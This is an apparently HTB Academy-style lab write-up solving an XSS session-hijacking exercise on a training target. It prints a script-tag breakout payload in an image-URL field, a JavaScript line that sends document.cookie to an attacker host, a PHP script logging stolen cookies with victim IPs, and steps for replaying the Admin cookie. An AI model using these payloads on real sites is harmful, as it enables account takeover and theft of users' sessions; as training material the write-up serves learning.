







## Exercises

### Question 1 — Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag. Hint: Don't forget to set both the name/value of the cookie when using it.

Target accessed at `10.129.234.166` (ACADEMY-XSS-ASMT), redirecting to a User Registration form with Full Name, Username, Password, E-Mail, and Profile Picture URL fields.



#### Setting Up the Listener

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ mkdir /tmp/tmpserver

┌──(—REDACTED—㉿kali)-[~]
└─$ cd /tmp/tmpserver

┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80

[sudo] password for —REDACTED—: 
[Thu Oct 29 11:13:55 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
```

#### Identifying the Vulnerable Field

Skipped the password field (hashed, so unlikely to reflect) and the email field (validated as a proper email format on both front-end and back-end, confirmed not exploitable even with manipulated request parameters). Tested `fullname`, `username`, and `imgurl` one by one with a remote-script payload, appending the field name to the request path so a hit would identify which field fired:

```
"><script src=http://—REDACTED—/PARAMETERS_HERE></script>
```



No request landed on the listener for any of the three fields. To rule out the listener itself as the problem, it was tested directly:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ curl http://—REDACTED—/selftest
```

```shell
[Thu Oct 29 11:35:45 2026] —REDACTED—:50884 Accepted
[Thu Oct 29 11:35:45 2026] —REDACTED—:50884 [200]: GET /selftest
[Thu Oct 29 11:35:45 2026] —REDACTED—:50884 Closing
```

The listener responded correctly to the self-test, ruling out a local misconfiguration. Respawned the target machine and repeated the same field-by-field test. This time, submitting the payload in the `imgurl` field produced a hit:

```shell
[Thu Oct 29 11:44:28 2026] 10.129.219.2:57808 Accepted
[Thu Oct 29 11:44:28 2026] 10.129.219.2:57808 [200]: GET /imgurl
[Thu Oct 29 11:44:28 2026] 10.129.219.2:57808 Closing
```

The earlier failure was most likely caused by the stale state of the original target spawn rather than anything wrong with the payload or listener, since the identical setup worked immediately once the target was respawned. This confirmed `imgurl` as the vulnerable field, with `"><script src=http://—REDACTED—:80/parameters></script>` as a working payload structure.

#### Building the Session Hijacking Payload

Wrote the cookie-stealing script:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ echo "new Image().src='http://—REDACTED—/index.php?c='+document.cookie" > script.js

┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ cat script.js

new Image().src='http://—REDACTED—/index.php?c='+document.cookie
```

**Breakdown:**

- `new Image().src='http://—REDACTED—/index.php?c='+document.cookie` creates a new, invisible image element and sets its `src` to the attacker's server, with `document.cookie` (the victim's own cookie string) appended as the `c` query parameter — the browser makes the request as a side effect of trying to load the image

Wrote the cookie-parsing PHP script:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ nano index.php

┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ cat index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

**Breakdown:**

- `if (isset($_GET['c']))` only proceeds if a `c` parameter was actually submitted
- `$list = explode(";", $_GET['c'])` splits the cookie string on `;`, in case the request carries multiple cookies
- `foreach ($list as $key => $value)` processes each cookie in that split list individually
- `$cookie = urldecode($value)` decodes any URL-encoded characters back to their original form
- `fopen("cookies.txt", "a+")` and `fputs(...)` open the log file in append mode and write a line recording the victim's IP (from the request itself) alongside the decoded cookie
- `fclose($file)` closes the file after writing

#### Submitting the Final Payload

Updated the working breakout structure to load `script.js` instead of the placeholder path, and submitted it in the `imgurl` field:

```
"><script src=http://—REDACTED—/script.js></script>
```

The listener logged the full chain of requests once the Admin viewed the submission:

```shell
[Thu Oct 29 11:48:55 2026] 10.129.219.2:57886 Accepted
[Thu Oct 29 11:48:55 2026] 10.129.219.2:57886 [200]: GET /script.js
[Thu Oct 29 11:48:55 2026] 10.129.219.2:57886 Closing
[Thu Oct 29 11:48:55 2026] 10.129.219.2:57888 Accepted
[Thu Oct 29 11:48:55 2026] 10.129.219.2:57888 [200]: GET /index.php?c=cookie=—REDACTED—
[Thu Oct 29 11:48:55 2026] 10.129.219.2:57888 Closing
```

The first request fetched `script.js`, and that script's execution triggered the second request carrying the stolen cookie. Checking the parsed log confirmed capture:

```shell
┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ ls

cookies.txt  index.php  script.js

┌──(—REDACTED—㉿kali)-[/tmp/tmpserver]
└─$ cat cookies.txt

Victim IP: 10.129.219.2 | Cookie: cookie=—REDACTED—
```

#### Using the Stolen Cookie

Navigated to `/hijacking/login.php`, which showed an Admin Login form with no existing session:



Opened Firefox's Storage tab in Developer Tools, which showed no cookie data present for the host:



Clicked the `+` button to add a new cookie entry:



Set the Name to `cookie` (the part before the `=` in the stolen value) and the Value to `—REDACTED—`:



Refreshed the page, which granted access as the Admin and revealed the flag:



**Answer:** `—REDACTED—`